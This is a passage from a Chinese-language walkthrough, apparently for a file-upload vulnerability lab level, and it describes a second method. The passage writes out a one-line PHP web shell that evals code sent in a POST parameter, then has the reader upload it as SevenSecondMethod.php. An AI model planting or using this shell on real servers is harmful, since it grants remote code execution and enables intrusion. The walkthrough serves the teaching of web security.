 

### 方法二

+ 首先编写脚本<code>SevenSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['SevenSecond']); ?>
~~~

![Pass07_5](./img/Pass07_5.PNG)



+ 上传相应的后台脚本<code>SevenSecondMethod.php</code>

![Pass07_6](./img/Pass07_6.PNG)

